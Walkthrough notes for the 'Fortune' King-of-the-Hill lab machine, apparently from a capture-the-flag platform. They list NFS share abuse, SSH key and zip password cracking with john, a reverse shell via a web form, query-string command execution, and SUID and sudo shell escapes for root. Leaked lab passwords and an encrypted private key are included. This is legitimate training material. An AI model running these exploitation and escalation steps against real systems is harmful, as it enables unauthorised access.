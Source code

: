 # Fortune KOTH machine

## footholds

hermes:

- using showmount -e <ip> reveals a share. mounting this with: `mount -t nfs 10.10.241.174:/srv/nfs /tmp/nfs -o nolock` can find a `hermes_ssh` file
- this can be decoded using vignere with key n, then broken with ssh2john, john and rockyou, and will provide ssh access as hermes
  
Note this key and its passphrase is random every time
  
fortuna:
  
- on port 3333 is a service that returns base64. access with nc (curl will also work)
- this is a zip file when decoded, that needs to be cracked
- inside is a creds.txt file that contains fortuna's password
  
  passwords seen: `MzE0NDBlND`, `ZGI4NjI0Mz`
  
  ```
  curl RHOST:3333 | base64 -d > f.zip
  /opt/john/zip2john f.zip > fj
  john --wordlist=rockyou.txt fj
  echo PASS | unzip f.zip
  cat creds.txt
  ```
  
www-data 1:
  
- the website on 80 has an ip and port field. this will on a random change connect back as a reverse shell, if tried multiple times
- as the form fields are randomised, it must be done manually, but is not difficult. 
- connects back as www-data
  
www-data 2:
  
- under port 80 `/_styles` is another website with straight command execution as www-data with the `luck` querystring param
- it has a 1 in 4 chance of running, but will also block any use of the text `nc`
  
## root
  
- there is no root squash on the nfs mount, so you can drop a suid binary in there from attack box
- `ionice /bin/sh -p`
- `/usr/bin/nice /bin/sh -p`
- `xargs -a /dev/null sh -p`
- `python -c 'import pty; pty.spawn("/home/lucky_shell")'` - is random so needs lots of tries
- `fortuna` and `pico`:
  
  ```
  sudo pico
  ^R^X
  reset; s
  ```
- `kairos` and python repl: to get to kairos use suid on find: `find . -exec /bin/sh -p \; -quit`
  ```
  python
  import pty;
  pty.spawn("/bin/bash");
  ```
    
## flags
  
- /media/darts
- /srv/blackjack
- /lib/checkers
- /usr/games/flag
- /usr/local/games/flag
- /geama/flag
- /home/fortuna/Desktop/chess (thanks to mug3njutsu on discord for this)
  
## hermes key, cuteko pass:

not sure if this random
  
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,57145A8D54A46E26334807885A43DA74

MBpsTtnjX14/G2VnexI+K4WFalKGoTm1/OHobQl+3EPZVY4LU4khWu2JABjv/EXv
cct34TxEu2kw7tYZmdlkosQANLdcLkryRZO8wnQmTmh/nAA9JOOsDNXDYUUteurf
j1UD3XouSNdygA7lDyGJPVqHPbkCOueG27Vryp5660kPpXmyEU7kOMMUpNzncR8r
yd6cQQDSd/ydzAhGpwdXkA4oxdX1qDCWz6Qc7hlMQbAUokGIsqwuRE1smloSwLln
dzTS6eXSq15XSM1Qcs4MVhyY9KX7nWN+8CfUrPRi1+msUlfGyhMacV6kHkl7aAQk
J58RsVKxcpkc8JkOHle//On1ZJ6noTOcSB1czMbhemH3n21FgreSOs8vxUqlX9x7
gVnjEbk7LbFBCObUhVUii3GURlpP1ro4Hv34VvOJl1MKtCOuI0kMyqYjTtFnnVLZ
zBKNoKOlzjM2FTZ2a2ziNAI1OEcO6KZRSPnSGZ0v0ra7GdP9Gj9HHGiIcZbwhex2
+6HGR87WtUWzEG0OCkiR38GhBrJ+byDGYbbAClJu/iun/unTApH7KzZTguOP8ICk
6Pinw3BsKcZbxhAQtjPNhzO/J7c+eMjUtf4yXqz3V0TtjujsluAv05IuTZbjHnCA
un7avtJFRXUVCkPfrEMIN00wOezrNSy2WMF5YzzAuZes4bHbPx2l6neDp6VmfVkg
cK6hZswiEks5MyMLftcLb80fg6hXwy4ZO51Cb4CKEwGU15C1cXG7vglqKlgLscVk
DAg8ySZwwAdffefxhNtiMkxDKu3BWU2onMyjLH7F57DM/gyZm4jGb7RXbvijva/o
PXZCIc0+nWbEAYYV/gG7u09cPWLQmyIaWKaLDxKMXyUW/8nfhIGo2LnACaMIAmZY
bqa9BV1Pkc6zc0hyDqRKa+b71WH5PWXvXETRs2BJcrKyAowiyd1N+EjYi+vzCD6D
gPZXi2wDvEQldNK58NY7IH2Jq1K6+K/6PeRdY2SEp6lQIijBogwFR4AxyNEt/jTe
LEA9ZpJid2sBO+O+SuPDMHfyl/TPQXB0kAAm0GuSmtxqOSrOYX3xPxJ7/+5ioDJZ
TqzNv+uD311ZPuWrKOApc27ZNu7x0Hbd6ATUaqTCkT1eCu4dFPvAROf2DQ8X0Fnx
kui1kvxEc2zU8QqLCizYxZnOLfhF6rtRLfM+zyTA96imlYTtDJMkwgAQU/gxPKuC
PEA6T08FD6TMhJYnjODKmYpYyj21CyKioqmIBR+b4okwYkAQ8WaLZVzCq4C8hoRm
RPCX49MyO6xTdF0mi+2Lsnq+sGJFaeThK5X4J+DGeKmN80cJ7lg0csKmaOTrWX3E
nv/T8D/SDbwybcSj7lISsZAagxaL/dpIIGkP87ZXsRAN57lGZ8gH1n4zMYACH1rt
fNRrsHGlYsqQGvhCtgM9iUZwJALAkqy71XXXy9e+a31QkmG8kRhBiQTex+GZRv6O
gX0bg5csBqJMyJtMNm35GRhoxOmQb0yzKJW/B9uLA3yc/qEOJuu+BjcNx9YrqhoE
h2ZlzchBizy6lU08RI/Py0OGB6YfTWTXM89AENH3sttMI765+CZaypRUBDWDQSrF
-----END RSA PRIVATE KEY-----
```
